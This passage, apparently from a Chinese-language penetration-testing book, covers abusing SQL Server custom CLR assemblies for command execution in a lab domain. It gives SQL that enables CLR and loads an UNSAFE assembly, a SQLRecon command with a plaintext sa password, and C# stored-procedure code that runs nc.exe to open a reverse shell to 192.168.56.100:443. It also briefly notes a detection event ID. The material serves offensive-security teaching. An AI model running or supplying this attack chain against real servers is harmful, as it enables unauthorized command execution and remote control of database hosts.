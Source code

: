 图 9.15 – DLL 成功加载到内存中

失败的尝试将生成 ID 为 `17750` 的错误。通过关联这两个事件，如果环境中有预定义的 DLL 名单，可以基于 DLL 名称构建检测。

## 自定义 CLR 程序集

**公共语言运行时` (`CLR**) 程序集是一个可以导入到 SQL Server 的 .NET DLL。导入后，DLL 方法可以链接到存储过程。在这种情况下，攻击分为两步——启用 CLR 和实际执行。一个很好的分步博客帖子详细说明了这个过程，作者是 *NetSPI*[20]。C# 代码被编译成 DLL 并导入到 SQL Server。以下查询可以执行操作系统命令：

```
use msdb
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'clr enabled',1
RECONFIGURE
CREATE ASSEMBLY my_evil FROM 'C:\Users\Public\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_evil].[StoredProcedures].[cmd_exec];
```

该方法的另一个优点是，可以仅在内存中使用 DLL 的十六进制表示，而不需要接触磁盘。

还有两个需要注意的事项。此技术要求设置`TRUSTWORTHY`属性，这就是为什么我们使用默认具有此属性的`msdb`数据库。此外，`clr strict security`选项是微软引入的[21]。默认情况下，`alter/create`程序集语句中的`permission_set`选项将被忽略。要关闭此选项，需要通过`sp_configure`重新配置 CLR 严格安全设置。

为了演示，我们将结合使用 SQLRecon 和 PowerUpSQL 中的`Create-SQLFileCLRDll`函数来获得一个交互式反向 Shell。第一步是通过以下命令启用 CLR：

```
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:EnableClr
```

然后，我们使用`Create-SQLFileCLRDll`函数生成自定义程序集的代码：

```
Create-SQLFileCLRDll -OutFile runcmd -OutDir . -AssemblyName "runcmd" -AssemblyClassName "StoredProcedures" -AssemblyMethodName "cmd_exec"
```

让我们修改生成的`.csc`文件。以下代码效果非常好：

```
            using System;
            using System.Data;
            using System.Data.SqlClient;
            using System.Data.SqlTypes;
            using Microsoft.SqlServer.Server;
            using System.Diagnostics;
            public partial class StoredProcedures
            {
            [Microsoft.SqlServer.Server.SqlProcedure]
            public static void cmd_exec ()
            {
            Process proc = new Process();
            proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
               proc.StartInfo.Arguments = string.Format(@" /C C:\Users\Public\nc.exe -e cmd 192.168.56.100 443");
            proc.Start();
            proc.WaitForExit();
            proc.Close();
            }
            };
```
